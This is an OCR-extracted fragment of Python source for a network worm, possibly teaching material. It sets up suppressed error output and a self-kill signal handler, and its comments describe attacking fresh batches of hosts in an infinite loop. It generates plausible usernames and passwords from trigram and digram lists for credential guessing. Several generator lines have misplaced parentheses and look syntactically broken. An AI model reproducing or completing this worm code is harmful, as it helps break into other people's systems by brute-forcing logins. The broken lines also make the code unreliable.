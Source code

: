 ```python
sys.stderr = open(os.devnull, 'w')

def sig_handler(signum,frame):
	os.kill(os.getpid(), signal.SIGKILL)
	signal.signal(signal.SIGINT, sig_handler)

'''
IMPORTANT: Before changing this setting, read the last
paragraph of the main comment block above. As
mentioned there, you need to provide two IP
addresses in order to run this code in debug
mode.
'''
debug = 0

'''
The following numbers do NOT mean that the worm will attack only 3
hosts for 3 different usernames and 3 different passwords. Since the
worm operates in an infinite loop, at each iteration, it generates a
fresh batch of hosts, usernames, and passwords.
'''
NHOSTS = NUSERNAMES = NPASSWDS = 3;

'''
The trigrams and digrams are used for synthesizing plausible looking
usernames and passwords. See the subroutines at the end of this script
for how usernames and passwords are generated by the worm.
'''
trigrams = '''bad bag bal bak bam ban bap bar bas bat bed beg ben bet beu bum
			bus but buz cam cat ced cel cin cid cip cir con cod cos cop
			cub cut cud cun dak dan doc dog dom dop dor dot dov dow fab
			faq fat for fuk gab jab jad jam jap jad jas jew koo kee kil
			kim kin kip kir kis kit kix laf lad laf lag led leg lem len
			let nab nac nad nag nal nam nan nap nar nas nat oda ode odi
			odo ogo oho ojo oko omo out paa pab pac pad paf pag paj pak
			pal pam pap par pas pat pek pem pet qik rab rob rik rom sab
			sad sag sak sam sap sas sat sit sid sic six tab tad tom tod
			wad was wot xin zap zuk'''

digrams = '''al an ar as at ba bo cu da de do ed ea en er es et go gu ha hi
			ho hu in is it le of on ou or ra re ti to te sa se si ve ur'''

trigrams = trigrams.split()
digrams = digrams.split()

def get_new_usernames(how_many):
	if debug: return ['xxxxxx'] # need a working username for debugging
	if how_many == 0: return 0
	selector = "{0:03b}".format(random.randint(0, 7))
	usernames = [''.join(map(lambda x: random.sample(trigrams, 1)[0])
		if int(selector[x]) == 1 else random.sample(digrams, 1)[0], range(3)) for x in range(how_many)]
	return usernames

def get_new_passwords(how_many):
	if debug: return ['xxxxxx'] # need a working password for debugging
	if how_many == 0: return 0
	selector = "{0:03b}".format(random.randint(0, 7))
	passwords = [''.join(map(lambda x: random.sample(trigrams, 1)[0] + (str(random.randint(0,9))
		if random.random() > 0.5 else '') if int(selector[x]) == 1
			else random.sample(digrams, 1)[0], range(3))) for x in range(how_many)]
	return passwords

```